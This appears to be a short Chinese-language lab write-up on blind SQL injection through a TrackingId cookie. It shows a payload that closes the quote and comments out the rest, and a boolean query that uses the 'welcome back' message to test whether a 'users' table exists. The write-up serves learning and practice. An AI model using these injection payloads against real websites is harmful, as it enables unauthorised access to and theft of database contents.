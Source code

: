 
添加单引号，`weblcome back`消失，因为不存在当前的`TrackingId`值

![image-20250501211515977](./img/image-20250501211515977.png)

成功闭合

```
Cookie: TrackingId=9qrmTSCzPnnQngsd'--+; session=k64QFjh9zhutTKnZFfsRO7oEpasxySSH
```

判断是否存在`users`表，这个查询会从 `users` 表中选取第一行，返回一个固定的值 `'a'`，如果是不存在的表，注入条件为false

```
TrackingId=9qrmTSCzPnnQngsd' and (select 'a' from users limit 1)='a;
```

`limit 1`是取第一行

`users1`表不存在

![image-20250501214331120](./img/image-20250501214331120.png)

